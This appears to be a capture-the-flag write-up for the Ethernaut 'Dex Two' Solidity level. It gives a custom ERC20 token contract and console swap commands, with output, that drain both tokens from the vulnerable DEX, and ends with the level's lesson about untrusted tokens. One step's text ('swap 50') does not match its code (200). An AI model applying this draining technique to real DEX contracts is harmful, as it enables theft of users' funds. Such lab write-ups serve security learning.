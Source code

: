 ## Dex Two

Difficulty 4/10

This level will ask you to break `DexTwo`, a subtlely modified `Dex` contract from the previous level, in a different way.

You need to drain all balances of token1 and token2 from the `DexTwo` contract to succeed in this level.

You will still start with 10 tokens of `token1` and 10 of `token2`. The DEX contract still starts with 100 of each token.

  Things that might help:

-   How has the `swap` method been modified?
-   Could you use a custom token contract in your attack?

Create a new token `token3` with 10 ** 20 supply
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract Token3 is ERC20 {

    constructor(string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
    }

}
```

![[Pasted image 20220311143119.png]]

transfer all to player wallet
![[Pasted image 20220311143705.png]]

approve the dex, player
![[Pasted image 20220311145437.png]]

add 100 token3 to Dex:
`contract.add_liquidity('0x353406DbDA6B1Bc9ba79007303baD099016Cf6D5', 100)`

approve instance, player:
```
contract.approve(instance, 1000)
contract.approve(player, 1000)
```

price is calculated same way as Dex 1; dex has 100 token3 and 100 token1 so we can change 1 for 1

```js
let t1 = await contract.token1()
let t2 = await contract.token2()
let t3 = '[token3 contract address]'
contract.swap(t3, t1, 100)
await contract.balanceOf(t3, instance)
	o {negative: 0, words: Array(2), length: 1, red: null}
	length: 1
	negative: 0
	red: null
	words: (2) [200, empty]
	[[Prototype]]: Object
await contract.balanceOf(t1, instance)
	o {negative: 0, words: Array(2), length: 1, red: null}
	length: 1
	negative: 0
	red: null
	words: (2) [0, empty] // <- 0
	[[Prototype]]: Object
```

now dex has 200 token3, 0 token1, and 100 token2. to get token2, we need to send more but ok since we have `10 ** 20 - 200` token3

solving amount to send like Dex 1 chal
```
swap_amount = (x * from) / to
100 = (x * 100) / 200
x = 200
```

swap 50 token3 for 100 token2:
```js
contract.swap(t3, t2, 200)
await contract.balanceOf(t2, instance)
	o {negative: 0, words: Array(2), length: 1, red: null}
	length: 1
	negative: 0
	red: null
	words: (2) [0, empty] // <- 0
	[[Prototype]]: Object
```

END:

Level completed!
Difficulty 4/10

As we've repeatedly seen, interaction between contracts can be a source of unexpected behavior.

Just because a contract claims to implement the ERC20 spec does not mean it's trust worthy.

Some tokens deviate from the ERC20 spec by not returning a boolean value from their transfer methods. See Missing return value bug - At least 130 tokens affected.

Other ERC20 tokens, especially those designed by adversaries could behave more maliciously.

If you design a DEX where anyone could list their own tokens without the permission of a central authority, then the correctness of the DEX could depend on the interaction of the DEX contract and the token contracts being traded.